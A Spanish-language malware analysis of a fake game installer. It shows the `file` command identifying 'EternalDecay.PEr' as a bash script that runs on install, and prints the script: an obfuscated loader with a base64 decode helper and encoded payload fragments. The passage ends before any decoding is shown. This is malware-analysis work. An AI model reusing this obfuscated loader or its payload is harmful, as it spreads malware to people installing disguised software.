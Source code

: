 El contenido dentro del instalador tiene un peso de menos de 2MB, lo cual podría indicar que el instalador descarga algún tipo de archivo adicional. El archivo `EternalDecay.PEr` llama la atención más que el resto, así que ejecutamos el comando file, para saber qué tipo de archivo es.

```sh
➜  file EternalDecay.PEr
EternalDecay.PEr: Bourne-Again shell script text executable, ASCII text, with very long lines (388)
```

Y desde este momento el juego deja de parecer juego, ya que este script en bash se va a ejecutar una vez intentes instalar el juego. Saber qué acciones realiza este script es vital, ya que podemos saber qué es lo que el atacante intenta hacer.

```bash
#!/bin/bash

if false; then
    HprWMr=350
    UYMZPuPu() {
        local var=286
        return 0
    }
    NrGpUl=692
fi

dPwVdu() { echo "$1" | base64 --decode; }

zZvOBNrD='GU'
# zUMalMuWLb
nyoUPXSF='CVVzEJvdn'
# wzRhWOxZLP
sBPrdnVP='BHndz+Fr1ODIKnkkLVp/V7HR/K9Irox8ZerRXCg2T1el7CVDSK9MUGXGCWA01vsvEb3x80i'
# bKdnoCEDxJ
soHcuyzH='vTFBlxnk0MJ5PH7'
# reypFOgvXm
tVTWqYNR='HRzac8v/gk0epIRC'
# GwCojJQnEe
coLxXhyB='h2T3+x0cyvSL8ADMwukWysNkMvEb393+QXDFDRxmhQrDZDLxG9/YcEwwxQ0fpZYMlaHnN9rUWH6EdBDMkCRSCEDvsvEb3x8/yDYRhNQkUYhJ5DLxG98fPgFxAQKbpYRISy13OlrWnzBL/4JMUCSUQoNk8fsdHNpzy/+C'
# bmCcvVUWCm
rMTBWoNj='TR4v0YhJ5DLxG98fNIr0xQZepJRMg2Tx+x0c2nSL9wFMle'
# frZcxvoXVB
TavHyPAi='CSQkz5NbEb3dd/y/ECjJUllI6I4fG1HRWct'
# WtRjtYhJCi
kUUBaElK='IgwBwKbuRqISeQy8RvfHzSK9MUGXqRRiEnkMvEZHN3/yvQQwlhmk8yPIPp7HRzadIgwAUZfo'
# SPFTUFbzjZ
hfYbWtuB='JRC1ai58RvfHzSK9MUGXqRRiEnkMvEb3x80i/ERzFhgUYLCYfb13t7K9gB0xQZepFGISeQy8RvfHzSL8QGCnqSUTIDvsvEb3x80ivTFBl+hlQyJ5PV13R/d8IwwzgZepFGISOH2ddvfyv4Bvk4GXqRRiEjvcHEZG9z+AX2HzR8glELVqLL7HRwfNIB2xQ0frhNCgO+y8RvfHzSK9MUGXGaTQwsh9XvS1J80ivTFApu5UohI73BzkV8fNIr0AkKYYFGMgno39dra2LOL9RDMXqSEQodkMXBHWdt+SDEBwphnVchDZDBxGRvc/gF9h80fIJRC1aiy8dFfHLXEds4GXqRRiEsn8Dpb39z+CDQPAlu4U0hLIPaxG90bsk'
# nJVuqmNboE
RGEyTVVi='wwB8zVOVJCiGDwNQee'
# LWsZeeVsYi
uZhMUPmd='y7SD/0UGXqRRgtWh5zEa3ts+C7QGzR+t0YMI+nL10EEaMEvxAoFfpYRCSeQwcRre2z4LacbMm6FaiEnkMvEZHN3/yvQQwpu4VY5PJPb2Gt7K/or0EMyQJFIJFeD'
# aoAMLvoUzh
GUtUgBuF='2O5vBXLSK8sUCWGSVjwJl9jXfVJ80ivTFDRxmhQrDZDLxG98fNIr0xQKfuhGC1a5wO9rSnz4'
kcqPodZo='WtwKMWGSESEnm9Xvf3xvwQH'
AzSkDUFk='TGhl6i'
# GKXHHiYYiI
SUTRTpBB='UYLPIfa6WtrcNIvyAUzV'
# aVvDiNoPkD
OegHesMx='OBGClaIy+lra2/4LdQEM3+SSQwjtufEb3x80i/EBgp6khELCrrnxG98fNIgwAo1aL9GISeQy8RvfHzSL8AFGXGeTjIzqd/EZHNx+AX+BDR6kUgxV5DLxEV8dtIg1EIyCoJNMieTwe'
# ewKfcWHVsv
```